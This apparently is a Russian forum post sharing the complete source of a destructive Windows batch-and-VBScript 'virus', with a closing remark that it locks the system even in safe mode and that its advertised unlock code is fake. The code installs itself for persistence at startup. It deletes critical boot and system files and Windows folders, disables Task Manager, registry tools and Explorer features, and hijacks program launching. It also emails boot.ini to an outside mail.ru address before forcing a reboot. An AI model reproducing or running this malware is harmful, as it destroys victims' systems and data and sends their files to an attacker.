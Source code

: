 # pinokio
[SRC] Echo_inactive_inactive This virus created by NickName Echo_inactive_inactive Virus: forum.ru Virus Echo_inactive_inactive Autor: NickName Echo_inactive_inactive off echo Chr(39)>%temp%\temp1.vbs echo Chr(39)>%temp%\temp2.vbs echo on error resume next > %temp%\temp.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0 copy %¶§% %SystemRoot%\user32dll.bat reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru">>%temp%\temp.vbs echo on error resume next > %temp%\temp1.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs echo do>>%temp%\temp1.vbs echo fso.getfile ("A:\")>>%temp%\temp1.vbs echo loop>>%temp%\temp1.vbs echo on error resume next > %temp%\temp2.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs echo do>>%temp%\temp2.vbs echo execute"S.Run ""%comspec% /c echo "" &amp; Chr(7), 0, True">>%temp%\temp2.vbs echo loop>>%temp%\temp2.vbs reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f echo set application=createobject("shell.application")>>%temp%\temp.vbs echo application.minimizeall>>%temp%\temp.vbs reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f start rundll32 user32, SwapMouseButton reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f echo i=50 >> %temp%\temp.vbs echo while i^>0 or i^&lt;0 >> %temp%\temp.vbs echo S.popup "forum.whack.ru",0, "forum.whack.ru",0+16 >> %temp%\temp.vbs echo i=i-1 >> %temp%\temp.vbs echo wend >> %temp%\temp.vbs echo do >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{capslock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{numlock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs echo loop>> %temp%\temp.vbs echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs echo colCDROMs.Item(i).eject >> %temp%\temp.vbs echo next >> %temp%\temp.vbs echo End If >> %temp%\temp.vbs echo Call SendPost("smtp.mail.ru", "forum.whack.ru@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs echo Set Flds = iConf.Fields >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs echo Flds.Update >> %temp%\temp.vbs echo iMsg.Configuration = iConf >> %temp%\temp.vbs echo iMsg.To = strTo >> %temp%\temp.vbs echo iMsg.From = strFrom >> %temp%\temp.vbs echo iMsg.Subject = strSubject >> %temp%\temp.vbs echo iMsg.TextBody = strBody >> %temp%\temp.vbs echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs echo iMsg.Send >> %temp%\temp.vbs echo End Function >> %temp%\temp.vbs echo Set iMsg = Nothing >> %temp%\temp.vbs echo Set iConf = Nothing >> %temp%\temp.vbs echo Set Flds = Nothing >> %temp%\temp.vbs  echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru"" -f",1 >> %temp%\temp.vbs start %temp%\temp.vbs start %temp%\temp1.vbs start %temp%\temp2.vbs [/SRC]


Вирус полностью блокирует систему при следующем запуске Windows.Даже в безопасном режиме, выключает диспетчер задач.Чтобы разблокировать компьютер можно введя код 200393!(Но он не разблокирует)
